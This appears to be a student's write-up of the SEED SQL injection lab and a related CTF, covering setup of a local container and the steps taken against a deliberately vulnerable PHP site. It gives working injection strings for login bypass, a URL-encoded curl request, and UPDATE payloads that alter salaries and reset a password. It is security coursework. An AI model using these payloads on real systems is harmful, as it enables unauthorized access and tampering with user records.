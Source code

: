 ## SETUP
- We need to add the line "10.9.0.5 ww.seed-server.com" inside the file /etc/hosts.<br>
- Afterwards we just need to build the container and run it.
- Now we need to find tge ID of the container with `dockps` and once we know the ID we run `docksh ID` to open a shell inside the container.

### Task 1
- On the containers shell we will start using all databases associated with the user root `mysql -u root -pdees`.
- Now that we're using mysql we'll need to load the sqllab_users database with `use sqllab_users`.
- To show the database we can run `show tables`.
- ![Task1](/Images/Week8/Task1.png "Task1")
- To have Alice's information we run `SELECT * FROM credential WHERE name="ALICE";`
-


### Task 2
#### 2.1
- In a browser we open www.seed-server.com and now we need to access the admin account.
- Inside the "unsafe home.php" file we could find a vulnerability in the way the query was made.
- ![task2-1](/Images/Week8/task2-1.png "task2-1")
- Since we know the account name is "admin" we can use a very common sql injection `admin'-- ";`
- `admin` is the account name, `'` is used to end the input of that sql field, `-- ` will comment all sql code afterwards, `"` will end the string in php and `;` end the line in php.
- ![Task2-1-1](/Images/Week8/Task2-1-1.png "Task2-1-1")
- And the result is :
- ![Task2-1-2](/Images/Week8/Task2-1-2.png "Task2-1-2")

### 2.2

- We encoded the string `admin'-- "` in this website: https://www.urlencoder.org
- That string is equal to `admin%27--%20%22%3B`. 
- After that, we sent the command `curl 'www.seed-server.com/unsafe_home.php?username=admin%27--%20%22%3B&Password=11'` in the terminal.
- By doing that, we got access to the content.
- ![task2-2](/Images/Week8/task2-2.png "task2-2")



#### 2.3
- In the username field we inserted the following command `admin'; DELETE FROM credential WHERE name='Alice' ";#`
- We realized that, eventhough the syntax was correct, the following error was always present:
- ![task2-3-1](/Images/Week8/task2-3-1.png "task2-3-1")

- In kind of injection doesn't work since the API used in the .php file is my `mysqli`. The `querry` command only allows single querries.

- ![task2-3-2](/Images/Week8/task2-3-2.png "task2-3-2")


### Task 3
#### 3.1

- The following code to update the user info in the `unsafe_edit_backend.php` file is vulnerable
- ![task3-1-code](/Images/Week8/task3-1-code.png "task3-1-code")

- We inserted the command `9111', salary=50000 WHERE Name='Alice';-- ";` in the phone number section of the edit profile.
- ![task3-1-init](/Images/Week8/task3-1-init.png "task3-1-init")
- After that, we can verify Alice's salary has changed.
- ![task3-1](/Images/Week8/task3-1.png "task3-1")

### 3.2

- This task was almost equal to the previous one. The only thing that changed was the `Name=Boby`.

- The new command is `9111', salary=50000 WHERE Name='Boby';-- ";`

- After that, we can verify Boby's salary has changed.
- ![task3-2](/Images/Week8/task3-2.png "task3-2")

### 3.3

- The passwords on this server are encrypted via SHA1

- ![task3-3-init](/Images/Week8/task3-3-init.png "task3-3-init")



- We altered Boby's password to `7110eda4d09e062aa5e4a390b0a572ac0d2c0220`, which is the equivalent of `SHA1('1234')`.

- We used this command in the Phone number field: `9111', password='7110eda4d09e062aa5e4a390b0a572ac0d2c0220' WHERE Name='Boby';-- ";`

- ![task3-3-1](/Images/Week8/task3-3-1.png "task3-3-1")

- After that, we just logged out and logged in introducting the username `Boby` and the password `1234`.

- ![task3-3-2](/Images/Week8/task3-3-2.png "task3-3-2")

- Finally, we have access to Boby's profile

- ![task3-3-3](/Images/Week8/task3-3-3.png "task3-3-3")


## CTF 1
- Since we have access to the file index.php it's easier to notice the vulnerability inside the login query and try to control it.
- As done in the lab we'll use the `admin';--` as the username inside the website.
- `admin` is the account name, `'` is used to end the input of that sql field, `;` ends the line in php, `-- ` will comment all sql code afterwards.
- ![CTF8.1](/Images/Week8/CTF8.1.png "CTF8.1")
- And so we have the flag.

